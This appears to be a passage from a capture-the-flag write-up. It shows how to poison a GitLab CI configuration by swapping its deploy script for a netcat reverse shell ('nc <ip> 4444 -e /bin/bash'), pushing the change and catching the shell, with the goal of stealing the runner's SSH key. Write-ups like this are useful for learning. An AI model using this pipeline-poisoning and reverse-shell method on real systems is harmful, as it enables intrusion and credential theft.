 Apart from a bunch of php files, something interesting that we can see is the `.gitlab-ci.yml` file. This is the configuration file for the CI/CD machine when a commit gets pushed. Lets take a look at it.

![](images/jolly_cicd/cicd_config.png)

It looks like this config file specifies a script to be run when changes are pushed. Right now, it is just copying the current directory on the CI/CD server to the remote wordpress server's web root directory. This is being done remotely from the CI/CD server so the server must be using an ssh key to access the wordpress server. If we can get into the CI/CD server we could probably steal that key to use ourselves.

So back to the script being run in the config file, it seems we could likely modify this and run our own code to try and gain access to the CI/CD server. There are many ways to accomplish this. I will use a simple reverse shell.

First, comment out the current script line, and replace it with `netcat command nc <your-machine-ip-address> 4444 -e /bin/bash`. You can find your machine's ip address with `ifconfig`.

![](images/jolly_cicd/cicd_config_edited.png)

Now lets stage all git changes.

`$ git add -A`

Create a commit.

`$ git commit -m "pwned"`

And finally we will push the changes. Once we push the changes though, we will quickly have to run the netcat listener for our reverse shell so we catch the request from the gitlab server. Lets do it.

`$ git push`

`$ nc –lvp 4444`

We're in!
